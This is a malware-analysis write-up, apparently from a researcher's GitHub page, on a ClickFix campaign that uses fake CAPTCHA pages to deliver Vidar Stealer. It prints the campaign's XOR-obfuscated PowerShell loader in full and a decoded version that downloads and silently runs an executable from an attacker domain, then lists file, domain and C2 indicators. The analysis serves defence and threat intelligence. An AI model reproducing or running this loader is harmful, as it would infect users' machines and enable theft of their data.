


# ClickFix VidarStealer Campaign

Another ClickFix campaign, initially brought to my attention via X<a href="#1"><sup>1</sup></a> appears to have been launched using hundreds (maybe thousands) of fake & compromised domains. The domains are hosting CloudFlare CAPTCHA pages, leading to ClickFix, then to Vidar Stealer<a href="#2"><sup>2</sup></a>.<br />


*Fig I. The ClickFix page on one of the recent domains.*


# Obfuscated PowerShell

The few sites I investigated all hosted the same obfuscated PowerShell payload:

```powershell
<# I am not a robot - Cloudflare ID: cb3aa9d66f0277a3 #>  $k='yzCwGu';$d='5d0e200137180947642c140c0a0e261a693b1c0e6d2422070f132012171a1014373a261b181d26051a4f432926143207100e3a27351a0d1520182b4822293a04331014540d12335b2a1f2002351c0d031305280116192c1b130c091f1e4d7d21150972457c510d4709182e1b542a22032f555d1f2d017d213c3713576f2e2a033003221857330c5917140d121e4d7d321c0e111629111617051e2b10371b2e126f5c50410d123058300e261a6758300e261a130c091f63332e071c193718350c59571316331d595e37576a33160820123b3a0c0e6e393219154167117a3f16132d5a17140d12635333555121100e34011c176d3e085b291b371f1a4f433d26031514171e2c1a011c151f0d162a1051536850605b1c022650605c425e2c1c7a45421c2c056f511047734c631c59572f03674659572219235554142c036751161178532e5e52533803350c02332d01281e1c57141225271c0b36123401595716052e555e5d2b0333050a406c583e14171f331e231a0b542e182a5a180a2a582e1b1d1f3b59371d0945224a23195f0e2c1c221b441c201323401b4d7a4121171f4f20157243484e27167014181b774070461f18774773424e4b20437f47481f77157f114a4a704772101d422711724d1848724f7f530a08204a2a101d13201e29101f1531002807151e6d1922015f172c1322481a162c022313151b3112605259570c02333310162657631359571604223718092a1417140b092a19204e101c6b2322060d571316331d595e255e3c5116117e463a101509260c14011808375a14191c1f33576a261c192c19230659483e0a24140d192b0c14011808375a14191c1f33576a261c192c19230659483e0a7c1c1f526e192801595217123401542a22032f555d1c6a5e3c100113370a7c260d1b31036a250b15201234065957051e2b10291b371f67511f5a6e202e1b1d153424330c151f633f2e111d1f2d4c3307000111122a1a0f1f6e3e3310145a6e3b2e011c08221b17140d1263532155543c2c05241059570605351a0b3b20032e1a175a101e2b10170e2f0e041a170e2a19321004192203241d020778507c260d1b31036a250b15201234065957141e2911160d10033e191c5a0b1e23111c14630728021c08301f2219155a6e3635120c1726193339100937576058371513052813101626506b52542d2a19231a0e29370e2b105e56643f2e111d1f2d506b5254392c1a2a14171e645b63011a0c331a374e1c022a03';$r='';for($p=0;$p -lt $d.Length;$p+=2){$r+=[char](([convert]::ToInt32($d.Substring($p,2),16))-bxor[int][char]$k[$p/2%$k.Length])};&([ScriptBlock]::Create($r))
```

<br />The payload is encoded using repeating-key XOR. `$k` holds the 6-character XOR key, `$d` is the actual payload, and `$r` is a buffer for the decoded result. The decoding operation for the payload is carried out in the `for` loop:

```powershell
for($p=0;$p -lt $d.Length;$p+=2) {
    $r+=[char](
        ([convert]::ToInt32($d.Substring($p,2),16))
        -bxor
        [int][char]$k[$p/2%$k.Length]
    )
}
```

<br />This reads `$d` two characters at a time and converts each read hex pair to an integer. It then XORs the integer against against the ASCII value of the corresponding key character in `$k`. The key is cycled using `$k[$p/2%$k.Length]` repeatedly until the payload is decoded. Once decoded, the payload is executed with `ScriptBlock::Create` to avoid touching the disk, and bypass any static string scans.

# Deobfuscating Payload

The full deobfuscated payload is as follows:

```powershell
$tcvpmp='[System.Net.ServicePointManager]::SecurityProtocol=[System.Net.SecurityProtocolType]::Tls12;
$t=Join-Path $env:TEMP([System.IO.Path]::GetRandomFileName());

New-Item -ItemType Directory -Path $t -Force|Out-Null;

$f=Join-Path $t ([System.IO.Path]::GetRandomFileName()+''.exe'');

$ok=0;

for($i=0;$i -lt 3 -and -not $ok;$i++) {
    try {
        Invoke-WebRequest -Uri ''hxxps[://]yanepidor[.]mom/api/index[.]php?a=dl&token=fcdd5b796fbf5cb5614da7aaa4773fb404771c4821e4b8d30305ed8df58a2188&src=medicineforworld.net&mode=cloudflare'' -OutFile $f -UseBasicParsing;

        if(Test-Path $f) {
            $ok=1
        } else {
            Start-Sleep -Seconds 2
        }
    }catch {
        Start-Sleep -Seconds 2
    }
};

if(-not (Test-Path $f)) {
    exit
};

Start-Process -FilePath $f -WindowStyle Hidden;

try {
    Remove-Item -LiteralPath $f -Force -ErrorAction SilentlyContinue
}
catch {
};
';
Start-Process -WindowStyle Hidden powershell -ArgumentList '-NoProfile','-WindowStyle','Hidden','-Command',$tcvpmp;

exit
```

<br />This attempts to pull a payload from hxxps[://]yanepidor[.]mom, and save it to `\Users\[USERNAME]\AppData\Local\Temp\` with a randomised name, followed by `.exe`. The `for` loop will will iterate a maximum of three times. If the loop exits after the third try, and the payload does not exist at the location defined by `$f`, the script exits. If the payload is sucessfully pulled, the payload will execute using `Start-Process`, before cleaning up after itself with `Remove-Item` to clear the payload. The main body of the script is stored in the `$tcvpmp` variable, and executed with `Start-Process`. The flags `-NoProfile` and `-WindowStyle Hidden` are used to reduce the noise generated by the execution. This spawns a child PowerShell process, making the execution less visible to a user.

# Analysis of Binary

Navigating directly to the hxxps[://]yanepidor link in the payload pulls a binary titled `update.exe`. The file is identified as a PE32+ executable for Windows.<br />


*Fig II. Basic file info for `update.exe`*

The sample appears on VirusTotal<a href="#3"><sup>3</sup></a>, and I uploaded it to MalwareBazaar<a href="#4"><sup>4</sup></a>. Based on an AnyRun analysis<a href="#5"><sup>5</sup></a> of the binary, it looks to be Vidar Stealer, reaching out to a C2 server potentially hosted at hxxps[://]gin[.]websitearaxa[.]com.

The indicators presented below were observed here, but as noted above, there are currently hundreds of these fake/compromised domains live online.

# Indicators - File
- 4039f4b7894969cd03b96e0e004b2da18445e24eb6dbfdec09a1a0de685e4215 -> SHA256 hash of the downloaded `update.exe` Vidar stealer.

# Indicators - Domain
  - medicineforworld[.]net -> Fake or compromised domain hosting ClickFix.
  - sapienharvest[.]com -> Fake or compromised domain hosting ClickFix.
  - lock-smith[.]ae -> Fake or compromised domain hosting ClickFix.
  - ayensuanoda[.]gov[.]gh -> Fake or compromised do-main hosting ClickFix.
  - mueblesbregon[.]es -> Fake or compromised domain hosting ClickFix.

# Indicators - C2
  - gin[.]websitearaxa[.]com -> Likely C2 server. 

# References
<p id="1"> [1] https://x.com/banthisguy9349/status/2045148606962024875
<p id="2"> [2] https://x.com/blackbigswan/status/2044403038392098847
<p id="3"> [3] https://www.virustotal.com/gui/file/4039f4b7894969cd03b96e0e004b2da18445e24eb6dbfdec09a1a0de685e4215
<p id="4"> [4] https://bazaar.abuse.ch/sample/4039f4b7894969cd03b96e0e004b2da18445e24eb6dbfdec09a1a0de685e4215/
<p id="5"> [5] https://app.any.run/tasks/a9723e42-fc37-4c86-9996-a67cf099db58